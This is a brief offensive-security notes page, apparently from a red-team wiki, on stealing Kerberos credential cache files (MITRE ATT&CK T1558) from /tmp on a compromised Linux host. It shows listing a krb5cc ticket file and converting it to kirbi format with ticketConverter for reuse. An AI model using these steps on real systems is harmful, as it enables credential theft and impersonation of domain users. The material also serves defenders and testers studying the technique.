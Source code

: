 ```yaml
---
description: MITRE ATT&CK, Credential Access, Technique T1558
---
```


# Kerberos Tickets

### Stealing Kerberos Tickets on Linux

Kerberos Credential Cache (ccache) files contain Kerberos credentials for the domain user that has authenticated to the Linux machine, this is often a cached TGT. These are referred to as a Linux Cached Credential and are stored in `/tmp` and can be exfiltrated by an attacker to request service tickets.

```bash
# Upon compromising a Linux system we identify a ccache file in /tmp
ls /tmp

-rw------- 1 parzival  domain users 1342 May  18 14:39 krb5cc_1337_TejHnF

# We can then download this ticket to our local machine and convert the ticket from ccache to kirbi
python3 ticketConverter krb5cc_1337_TejHnF parzival.kirbi
```
